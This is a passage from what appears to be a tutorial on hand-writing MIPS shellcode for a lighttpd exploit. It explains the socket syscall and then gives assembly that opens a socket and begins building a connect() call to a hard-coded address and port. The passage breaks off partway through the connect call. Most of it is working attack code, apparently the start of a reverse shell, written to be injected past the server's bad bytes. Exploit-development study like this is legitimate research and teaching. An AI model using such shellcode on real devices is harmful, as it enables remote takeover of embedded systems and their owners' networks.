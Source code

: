 ![strace output]({{site.baseurl}}/assets/images/shellcode/strace.png)

Let's look at an example of calling a function in assembly. According to strace calling `socket` is equivalent to:

```
socket(PF_INET, SOCK_STREAM, IPPROTO_IP);
```

First, we need to identify what each of the defined values are equivalent to. You can either look in Linux header files if you have them installed or the internet will give you a pretty good idea. 

![socket defines]({{site.baseurl}}/assets/images/shellcode/socket_defines.png)

Based on the result of the `grep` above, the function can be simplified to this:

```
socket(2, 2, 0);
```

To call `socket` we invoke the `syscall` instruction which generates a software interrupt resulting in execution of a function based on the value in the `$v0` register. Based on [this site](https://syscalls.w3challs.com/?arch=mips_o32) `socket`'s syscall index is 0x1057. Arguments in MIPS are passed in the `$a0` - `$a3` registers so the assembly to call `socket` with appropriate arguments is:

```
li $a0, 2
li $a1, 2
li $a2, 0
li $v0, 0x1057
syscall
```

This implementation is completely ignoring lighttpd bad bytes, but we are taking this one step at a time and the first step for me was writing assembly that worked. My full conversion is shown below. 

```
.globl main
.text

main:
	# socket_descriptor = socket(AF_INET, SOCK_STREAM, IPPROTO_IP)
	li $a0, 2
	li $a1, 2
	li $a2, 0
	li $v0, 0x1057
	syscall
	move $fp, $v0

	# connect(socket_descriptor, sockaddr, 16)
    # Build sockaddr on the stack
    # struct sockaddr_in {
    #	short int sin_family;
    #	ushort int sin_port;
    #	struct in_addr sin_addr;
 	#	uchar sin_zero[8];
 	# }
	lui $a1, 0x8080			# sin_port = 32896
	ori $a1, 0x2			# sin_family = 2
	sw $a1, -12($sp)
	li $a1, 0x0A0512AC		# sin_addr = "172.18.5.10"
	sw $a1, -8($sp)
	sw $zero, -4($sp)

	move $a0, $fp
	addi $a1, $sp, -12
	li $a2, 16
	li $v0, 0x104a
```